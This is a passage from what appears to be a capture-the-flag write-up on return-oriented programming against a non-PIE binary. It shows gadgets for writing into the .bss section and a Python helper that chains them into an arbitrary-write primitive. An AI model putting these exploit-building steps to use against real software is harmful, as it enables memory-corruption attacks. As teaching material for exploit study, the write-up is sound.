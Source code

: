 <figure><img src="../../.gitbook/assets/Untitled-2024-04-23-1900 (1).png" alt=""><figcaption></figcaption></figure>

for this, we would need a writeable address, since the binary has no PIE, I decided to use the `.bss` section to write our arguments.&#x20;

to write we will use this gadget with _**rsi**_ as _**where**_ to write and _**rdx**_ as _**what**_ to write:

```wasm
mov qword ptr [rsi], rdx ; ret
```

and to control those values we have these popsicles:

```wasm
pop rax ; pop rdx ; pop rbx ; ret 
pop rdx ; pop rbx ; ret
pop rsi ; ret
pop rdi ; ret 
```

since we'll we writing a lot values, I've write this function to simplify things

```python
def mov(where, what):
    return flat([
        POP_RDX_RBX,
        what,
        0x0,
        POP_RSI,
        where,
        MOV_RDX_TO_PTR_RSI
    ])
```
